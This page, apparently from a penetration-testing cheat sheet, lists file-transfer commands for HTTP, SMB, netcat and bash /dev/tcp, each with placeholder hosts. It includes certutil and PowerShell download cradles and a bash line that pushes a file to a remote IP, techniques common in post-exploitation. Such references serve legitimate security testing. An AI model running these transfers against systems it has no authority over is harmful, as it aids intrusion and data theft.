 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# File Transfer

## Integrity verification

{% tabs %}
{% tab title="Linux" %}
{% code overflow="wrap" %}
```sh
md5sum $FILE
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
{% code overflow="wrap" %}
```sh
certutil -hashfile $FILE md5
```
{% endcode %}
{% endtab %}
{% endtabs %}

## HTTP

### HTTP Server

{% tabs %}
{% tab title="Python3" %}
```sh
python3 -m http.server $PORT
```
{% endtab %}

{% tab title="Python2" %}
```sh
python2 -m SimpleHTTPServer $PORT
```
{% endtab %}

{% tab title="PHP" %}
```sh
php -S 0:$PORT
```
{% endtab %}
{% endtabs %}

### Download

{% tabs %}
{% tab title="Wget" %}
{% code overflow="wrap" %}
```bash
wget $URL
```
{% endcode %}
{% endtab %}

{% tab title="Curl" %}
{% code overflow="wrap" %}
```bash
curl -s $URL -o $OUTPUT_FILE
```
{% endcode %}
{% endtab %}

{% tab title="PowerShell" %}
{% code overflow="wrap" %}
```powershell
(New-Object Net.WebClient).DownloadString("$URL") > $OUTPUT_FILE
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
Invoke-WebRequest $URL -o $OUTPUT_FILE
```
{% endcode %}
{% endtab %}

{% tab title="CMD" %}
{% code overflow="wrap" %}
```sh
certutil -urlcache -split -f $URL $OUTPUT_FILE
```
{% endcode %}
{% endtab %}
{% endtabs %}

## SMB

### SMB Server

```sh
smbserver.py $SHARE . -smb2support [-username $USERNAME -password $PASSWORD]
```

### Download

{% tabs %}
{% tab title="Linux" %}
{% code overflow="wrap" %}
```sh
smbclient -U 'user[%pass]' //$IP/$SHARE -c "get $FILE $OUTPUT_FILE"
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
{% code overflow="wrap" %}
```sh
# mount smb Share to drive
net use z: \\$IP\$SHARE [/user:$USERNAME $PASSWORD]
# copy from share
copy \\$IP\$SHARE\$FILE $OUTPUT_FILE
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Netcat

{% tabs %}
{% tab title="Send" %}
{% code overflow="wrap" %}
```sh
nc -nlvp $PORT < $OUTPUT_FILE
```
{% endcode %}
{% endtab %}

{% tab title="Recieve" %}
{% code overflow="wrap" %}
```sh
nc -nlvp $PORT > $OUTPUT_FILE
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Bash

{% tabs %}
{% tab title="Send" %}
{% code overflow="wrap" %}
```sh
cat $FILE > /dev/tcp/$IP/$PORT>
```
{% endcode %}
{% endtab %}

{% tab title="Recieve" %}
{% code overflow="wrap" %}
```sh
cat < /dev/tcp/$IP/$PORT > $OUTPUT_FILE
```
{% endcode %}
{% endtab %}
{% endtabs %}
